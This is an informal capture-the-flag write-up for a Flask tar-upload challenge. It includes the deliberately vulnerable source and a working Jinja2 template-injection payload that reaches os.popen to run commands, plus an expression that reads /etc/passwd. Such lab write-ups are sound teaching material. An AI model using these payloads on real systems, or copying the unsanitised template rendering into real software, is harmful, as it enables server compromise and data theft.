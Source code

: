 # thought to solve

firstly, this challenge has 2 or maybe 3 ways to do, but this solution i will display in a way that i fully understand(hopefully that hehe)
Enought nonsense speaking, let's go to solve this challenge:
First here is the main source code we need to focus:

```
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import tarfile
from hashlib import sha256
import os
app = Flask(__name__)

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        file = request.files['file']
        if file.filename[-4:] != '.tar':
            return render_template_string("<p> We only support tar files as of right now!</p>")
        name = sha256(os.urandom(16)).digest().hex()
        os.makedirs(f"./uploads/{name}", exist_ok=True)
        file.save(f"./uploads/{name}/{name}.tar")
        try:
            tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
            tar_file.extractall(path=f'./uploads/{name}/')
            return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")
        except:
            return render_template_string("<p>Failed to extract file!</p>")

@app.route('/view/<name>')
def view(name):
    if not all([i in "abcdef1234567890" for i in name]):
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}")
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Remove the tar file from the list
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>'
       # except:
    return render_template_string(out)

@app.route('/read/<name>/<file>')
def read(name,file):
    if (not all([i in "abcdef1234567890" for i in name])):
        return render_template_string("<p>Error!</p>")
    if ((".." in name) or (".." in file)) or (("/" in file) or "/" in name):
        return render_template_string("<p>Error!</p>")
    f = open(f'./uploads/{name}/{file}')
    data = f.read()
    f.close()
    return data

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

1. server only accept tar archive
2. the tar archive is given a random name, saved in uploads/{name}. Its contents are extracted in the same path
3. when viewed using /view/{name} endpoint, the tar archive is deleted and the listing of files is shown.

I will not talk about **read/...** cause this solution don't need to use that feature but others need this :)). <br>

I see that parameter **"name"** is passed directly
without sanitzation in **render_template_string()**. And flash use jinja2 as the main template. <br>

---

But…

We have two problems at hand.

1. how can we execute python code inside the jinja2 template?

2. we don’t know the flag name (as shown in the Dockerfile, it's been redacted) <br>

Firstly, we can test this out by archiving a file called {{5*5}} and viewing it in the /view endpoint

Here is how we can go about doing so.

```
touch "{{5*5}}"
tar -cvf proof-of-concept.tar "{{5*5}}"
```

After the upload, we can see that the website indeed rendered 25 instead of {{5*5}}. <br>
Since everything is an object, meaning everything in python inherents from the object class. we can climb the inheretence tree to reach all the subclasses available, select the one we want to use to execute a shell command, and boom, command executed. Like this:

```
''.__class__.__base__.__subclasses__()[<index-of-_io._IOBase>].__subclasses__()[<index-of-_io._RawIOBase>].__subclasses__()[<index-of-_io.FileIO>]('/etc/passwd').read()
```

Here, i don't have much time to talk deeply but i will link 2 references that helps me a lot to finish this challenge. Here is my main payload:

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}}
```

This code uses Jinja2 to access internal Python objects and use them to execute system commands.
Through a series of steps accessing hidden properties and methods of Jinja2, it eventually accesses the Python os module and runs the id command.
![alt text](image.png)

it's look good, right. Next we change 'id' to 'ls'
![alt text](image-1.png)

there we go, flag.... flag is coming to us. Finally, cat flag..... and boom.
![alt text](image-2.png)

you can watch things relevant to this challenge more in two links below. Hopefully, you and i could learn sth.

# References

https://hxuu.github.io/blog/ctf/n00bz24/file-sharing-portal/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
